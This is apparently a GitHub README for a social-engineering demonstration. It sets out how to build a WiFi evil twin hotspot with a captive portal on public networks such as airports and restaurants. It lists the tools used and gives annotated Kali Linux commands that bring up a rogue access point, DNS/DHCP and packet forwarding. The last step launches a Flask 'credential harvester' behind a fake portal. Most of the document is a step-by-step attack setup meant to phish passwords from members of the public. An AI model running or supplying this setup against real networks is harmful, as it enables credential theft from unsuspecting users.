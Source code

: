 # Social-Engineering---WiFi-Spoofing-Attack
This is a demonstration of how a WiFi Spoofing / Evil Twin attack on public networks such as in airports and restaurants using a USB WiFi adapter and captive portal.

Technologies Used:

1) Flash Web Server for Hosting Fake Site
2) Hostapd to set up hotspot
3) DNSMasq for setting DNS and DHCP
4) Nodogsplash for setting up Captive Portal 


USB WiFi Adapter used: ALFA AWUS036ACS 802.11ac AC600 Dual Band WiFi USB Adapter

Commands Used on Kali Linux for setup:
sudo ip link set wlan0 down ----------> Set USB adapter interface down

sudo iw dev wlan0 set type __ap ----------> Set adapter to be in access point mode for our hotspot

sudo ip link set wlan0 up ----------> Set USB adapter interface up

sudo ip addr flush dev wlan0 ----------> Clear out any IP address associated to our adapter interface

sudo ip addr add 10.10.0.1/24 dev wlan0 ----------> Add 10.10.0.1 IP address to our USB adapter interface

sudo hostapd hostapd.conf ----------> Start up our WiFi hotspot

sudo dnsmasq -C dnsmasq.conf ----------> Launch our DNS and DHCP server

sudo sysctl -w net.ipv4.ip_forward=1 ----------> Enable IP forwarding for router to forward packets

sudo iptables -P FORWARD ACCEPT ----------> Update Linux kernel firewall to accept forwarding traffic

sudo python3 PhishingServer2.py ----------> Launch our Flask web server with credential harvester

sudo nodogsplash ----------> Launch our captive portal webpage





